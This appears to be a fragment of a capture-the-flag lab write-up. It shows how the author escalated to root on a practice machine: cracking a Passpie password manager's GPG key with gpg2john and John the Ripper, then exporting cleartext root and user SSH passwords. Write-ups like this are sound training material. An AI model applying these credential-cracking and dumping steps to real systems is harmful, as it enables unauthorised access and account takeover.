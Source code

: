 ```bash
-rwxr-xr-x 1 jnelson jnelson  48026 Apr 26 10:25 lse.sh.1
-rw-r--r-- 1 jnelson jnelson    347 Apr 26 10:41 pass
dr-xr-x--- 3 jnelson jnelson   4096 Oct 25  2022 .passpie
-rw-r--r-- 1 jnelson jnelson    347 Apr 26 16:46 passpie_cleartext
-rw-r--r-- 1 jnelson jnelson    807 Jun 26  2022 .profile
-rw-r----- 1 root    jnelson     33 Apr 26 05:02 user.txt
```
the .passpie directory pulled my attenton so went to it and I found an ssh directory si CDed into it and I found two files which are jnelson.pass and root.pass and after some research I fount that passpie is a password manager and you can export a password by creating a pass file and exporting the password into it but it needs a praraphrase to export it so I went back the .passpie/ssh directory and discovered that I should crack the root.pass file so used johntheripper
```bash
❯ gpg2john key > gpg.john
❯ john -w=/usr/share/wordlists/rockyou.txt gpg.john 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:02 DONE (2022-10-30 02:23) 0.3663g/s 70.32p/s 70.32c/s 70.32C/s ginger..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
after that you should export the password into the pass file
```
jnelson@meta2:~$ touch pass
jnelson@meta2:~$ passpie export pass
jnelson@meta2:~$ cat pass
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```
And you ssh using root
